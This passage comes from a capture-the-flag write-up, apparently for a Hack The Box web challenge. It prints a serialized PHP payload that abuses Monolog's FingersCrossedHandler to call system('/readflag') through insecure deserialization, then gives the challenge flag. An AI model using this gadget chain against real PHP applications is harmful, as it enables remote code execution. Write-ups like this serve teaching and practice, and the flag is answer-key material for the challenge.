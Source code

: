 For the RCE, we're using PHP system function to execute the binary /readflag which would print the flag.

Here's the payload generated by this script.
```
a:2:{i:0;O:28:\"www_frontend_vendor_autoload\":0:{}i:1;O:37:\"Monolog\\Handler\\FingersCrossedHandler\":4:{s:16:\"\u0000*\u0000passthruLevel\";i:0;s:10:\"\u0000*\u0000handler\";r:3;s:9:\"\u0000*\u0000buffer\";a:1:{i:0;a:2:{i:0;s:9:\"\/readflag\";s:5:\"level\";i:0;}}s:13:\"\u0000*\u0000processors\";a:2:{i:0;s:3:\"pos\";i:1;s:6:\"system\";}}}
```
Once we send this payload, we get the following response.

![](image-20230323153719403.png)

After that, if we simply refresh the admin dashboard, it would trigger the deserialization and print the flag.

![](image-20230323153803379.png)

## Flag
HTB{l00kup_4r7if4c75_4nd_4u70lo4d_g4dg37s}